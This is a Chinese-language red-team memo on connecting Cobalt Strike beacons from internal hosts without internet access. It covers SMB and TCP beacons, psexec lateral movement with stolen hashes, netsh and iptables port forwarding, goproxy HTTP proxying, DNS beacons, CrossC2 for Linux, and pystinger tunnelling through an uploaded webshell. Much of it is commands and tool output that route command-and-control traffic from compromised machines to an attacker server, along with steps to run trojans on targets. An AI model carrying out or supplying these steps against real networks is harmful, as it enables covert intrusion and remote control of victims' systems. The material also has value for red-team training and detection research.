常见不出网情况下，上线CS的方式，作为一个备忘录。

> 以下截图在不同时间/环境截取，IP会有些不同

# 0x01 存在一台中转机器

存在一台中转机器，这台机器出网，这种是最常见的情况。

经常是拿下一台边缘机器，其有多块网卡，内网机器都不出网。这种情况下拿这个边缘机器做中转，就可以上线。

拓扑大致如下:



## 上线方法一： SMB Beacon

### 介绍

官网介绍：SMB Beacon使用命名管道通过父级Beacon进行通讯，当两个Beacons连接后，子Beacon从父Beacon获取到任务并发送。

因为连接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，绕防火墙时可能发挥奇效。



### 使用

**这种Beacon要求具有SMB Beacon的主机必须接受端口445上的连接。**

派生一个SMB Beacon方法：在Listner生成SMB Beacon>目标主机>右键> spawn >选中对应的Listener>上线

或在Beacon中使用命令spawn smb（smb为我的smb listener名字）



使用插件，或自带端口扫描，扫描内网机器



转到视图，选择目标



使用psexec



选择一个hash，选择smb 监听器和对应会话



即可上线





运行成功后外部可以看到∞∞这个字符，这就是派生的SMB Beacon。

当前是连接状态，你可以Beacon上用link <ip>命令链接它或者unlink <ip>命令断开它。





这种Beacon在内网横向渗透中运用的很多。在内网环境中可以使用ipc $生成的SMB Beacon上传到目标主机执行，但是目标主机并不会直接上线的，需要我们自己用链接命令(link <ip>)去连接它。

### 上线方法二：中转listener(Reverse TCP Beacon)

其实和方法一是类似的



以下内容会自动配置



然后和上面方法一一样，发现内网主机且知道账号密码,psexec横向传递，选择中转listener






## 上线方法三：HTTP 代理

> 中转机器不需要上线即可

使用goproxy项目做代理，项目地址：

```php
https://github.com/snail007/goproxy
```

**过程：**

1.上传proxy.exe到web服务器(边缘主机)，在8080端口开启http代理

```php
C:\proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
```

2.用netsh命令将访问内网ip 192.168.111.131的822端口(必须为未使用的端口，否则会失败)的流量重定向到外网ip 192.168.1.88的8080端口

```php
netsh interface portproxy add v4tov4 listenaddress=192.168.111.131 listenport=822 connectaddress=192.168.1.88 connectport=8080
```



3.创建listener，配置如下



4.生成stageless payload，在业务服务器上执行，成功上线



连接过程

```php
192.168.111.236  → 192.168.111.131:822→ 192.168.1.88:8080→ C2(192.168.1.89)
```

## 上线方法四、TCP Beacon(正向)

- 正向连接
- 和SMB Beacon比较类似。也需要一个父beacon
- SMB Beacon，TCP Beacon 与 Cobalt Strike 中派生 payload 的大多数动作相兼容。除了一些  要求显式 stager 的用户驱动的攻击（比如： Attacks → Packages 、 Attacks → Web Drive-by ）。

测试：

生成一个tcp beacon



使用该beacon生成一个stageless形式的木马：



上传到目标机器运行：



在中转机器的Beacon里使用`connect [ip address] [port]`命令进行正向连接，即可上线：



要销毁一个 Beacon 链接，在父会话或子会话的控制台中使用 unlink [ip address] [session PID] 。以后，你可以从同一主机（或其他主机）重新连接到 TCP Beacon。



## 上线方法五、使用pystinger进行代理转发

pystinger的详细使用 见下面章节。 这里仅简单演示一下：

> 一般不会将pystinger用在这种场景下

**测试环境：**

攻击机kali：192.168.1.35

web服务器：192.168.1.70、192.168.111.129

业务服务器：192.168.111.236

**过程：**

1.上传proxy.php到WEB服务器网站目录，正常访问返回UTF-8

web服务器外网ip为192.168.1.70


上传stinger_server.exe，执行

```php
start stinger_server.exe 0.0.0.0
```

攻击机(192.168.1.89)上执行

```php
./stinger_client -w http://192.168.1.70/proxy.php -l 127.0.0.1 -p 60000
```

此时已经将web服务器的60020端口转发到vps的60020端口上了

CS设置监听,`HTTP Hosts`为中转机器的内网ip，端口为60020：



使用psexec横向移动，选择listener为pystinger，或者直接生成payload在业务主机执行，业务内网主机192.168.111.236即可成功上线：




## 补充：中转机器为Linux

### HTTP代理(中转机器不需要上线即可)

使用方法与上面方法三一样。只不过要使用iptables转发：

```php
echo 1 >/proc/sys/net/ipv4/ip_forward
iptables -A PREROUTING -p tcp -d 192.168.111.131 --dport 822 -j DNAT --to-destination 192.168.1.88:8080

iptables -A POSTROUTING -p tcp -d 192.168.1.88 --dport 8080 -j SNAT --to-source 192.168.111.131
```

**测试：**

中转机器(192.168.111.142)



攻击机



生成stageless payload，在目标机器上执行，成功上线





连接过程：(重新截的图，端口改了一下8080->8081)



192.168.111.140 → 192.168.111.142:8080→ 192.168.111.142:8081→ 192.168.111.131:81(C2)

### 使用pystinger进行代理转发

和上面`上线方法五`一样，建立pystinger连接之后，直接生成payload在业务主机执行，业务内网主机192.168.111.236即可成功上线。。

### CrossC2

> 通过其他机器的Beacon可以直接上线Linux机器
>
> 

**CrossC2使用**

用来上线Linux或MacOS机器

项目地址： 【**一定要下载对应版本的**】

```php
https://github.com/gloxec/CrossC2
```

配置：

(我这里在Windows上运行的teamserver)



创建个https监听：



生成个payload

(用其他方式也可以)







> 如果生成不了，也可以直接命令行生成
>
> 

生成之后，上传到Linux机器，运行，即可上线：





安装CrossC2Kit插件，丰富beacon的功能





**内网机器上线CS:**

中转的Linux机器上线之后，即可用上面的方法来上线内网机器。

**TCP Beacon：**





上传到目标机器运行。

然后在Linux beacon下连接：



上线之后是个黑框，`checkin`一下就可以了

> **还是建议使用上面两种方法。**

# 0x02 边缘机器只有DNS协议出网

## DNS上线CS

### 一、准备工作

1）域名 ，godaddy ：yokan.xxx
 2）vps，防火墙开放UDP端口53 : 82.xxx.xxx.19


3）cobalt strike 4.1

### 二、域名设置

1）设置解析

配置A记录设置成vps的ip，cs也配置在vps上


 配置几个ns记录 指向刚刚A记录对应的域名



配置完成之后`ping test.yokan.xxx`可以ping通
 

vps上查看53端口占用情况，停掉vps的53端口服务
 

```
systemctl stop systemd-resolved
```




2）cs设置监听

![image-

都是ns记录的域名，DNS Host(Stager)随便选择其中一个就可以。



3）nslookup查看 ，成功解析：



注意：响应的地址74.125.196.113，这个是跟profile里设置的



### 三、cs上线

生成cs的stageless上线马，执行上线

> stageless 马 dns有x64版本 , stager没有
>
> 



上线之后是黑框，需要使用`checkin`命令让dns beacon强制回连teamserver



> PS:需要多等一会



这样就可以正常交互了：



# 0x03 边缘机器不出网

## 方法一、TCP Beacon 正向连接

<font color='red'>应用场景：边缘机器各种协议均不出网，但是可以正向访问到。</font >

使用：

先让自己的攻击机上线



然后，如"**上线方法四**"一样，使用TCP Beacon生成一个stageless形式的木马，上传到目标机器，并运行。


在攻击机(中转机器)的Beacon里使用`connect [ip address] [port]`命令进行正向连接，即可上线：



## 方法二、使用pystinger(毒刺)工具

<font color='red'>应用场景：边缘机器各种协议均不出网，但是存在web服务，已经拿到webshell。</font >

项目地址:

```php
https://github.com/FunnyWolf/pystinger
```

简单原理：

**`Pystinger`来实现内网反向代理，利用http协议将目标机器端口映射至cs服务端监听端口，能在只能访问web服务且不出网的情况下可以使其上线cs**



### 使用

地址:

```php
https://github.com/FunnyWolf/pystinger/blob/master/readme_cn.md
```

这里直接复制过来了：

> 假设不出网服务器域名为 [http://example.com:8080](http://192.168.3.11:8080/) ,服务器内网IP地址为192.168.3.11

#### **SOCK4代理**

- proxy.jsp上传到目标服务器,确保 http://example.com:8080/proxy.jsp 可以访问,页面返回 `UTF-8`
- 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行`start D:/XXX/stinger_server.exe`启动服务端

> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连

- vps执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- 此时已经在vps`127.0.0.1:60000`启动了一个`example.com`所在内网的**socks4a**代理
- 此时已经将目标服务器的`127.0.0.1:60020`映射到vps的`127.0.0.1:60020`

#### **cobalt strike单主机上线**

- proxy.jsp上传到目标服务器,确保 http://example.com:8080/proxy.jsp 可以访问,页面返回 `UTF-8`
- 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行`start D:/XXX/stinger_server.exe`启动服务端

> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连

- stinger_client命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- cobalt strike添加监听,端口选择输出信息`RAT Config`中的Handler/LISTEN中的端口(通常为60020),beacons为**127.0.0.1**
- 生成payload,上传到主机运行后即可上线

#### **cobalt strike多主机上线**

- proxy.jsp上传到目标服务器,确保 http://example.com:8080/proxy.jsp 可以访问,页面返回 `UTF-8`

- 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行

  ```php
  start D:/XXX/stinger_server.exe 192.168.3.11
  ```

  启动服务端

> 192.168.3.11可以改成0.0.0.0

- stinger_client命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11(example.com的内网IP地址)
- 生成payload,上传到主机运行后即可上线
- 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线

#### **定制Header及proxy**

- 如果webshell需要配置Cookie或者Authorization,可通过--header参数配置请求头

```php
--header "Authorization: XXXXXX,Cookie: XXXXX"
```

- 如果webshell需要通过代理访问,可通过--proxy设置代理

```php
--proxy "socks5:127.0.0.1:1081"
```

### 测试

> 攻击机：192.168.1.89

假设我们在拿下一台目标主机，但是无法连接外网。



使用 `pystinger` 工具进行 CS 上线，[下载地址](https://github.com/FunnyWolf/pystinger)，通过 `webshell` 实现内网 `SOCK4` 代理，端口映射可以使目标不出网情况下在 CS 上线。

首先上传对应版本脚本到目标服务器。



将`stinger_server.exe`上传到目标服务器,蚁剑/冰蝎执行`start stinger_server.exe`启动服务端




把 `stinger_client` 上传到 `teamserver` 服务器，-w 指定 proxy 的 url 地址运行。

```shell
chmod +x stinger_client
./stinger_client -w http://192.168.1.70/proxy.php -l 127.0.0.1 -p 60000
```



CS 新建监听器，设置为目标机器的内网 IP，端口默认 60020。(teamserver 服务器和执行 stinger_client 应为同一台服务器)



生成木马，上传目标服务器并执行。可看到 CS 有新上线主机。

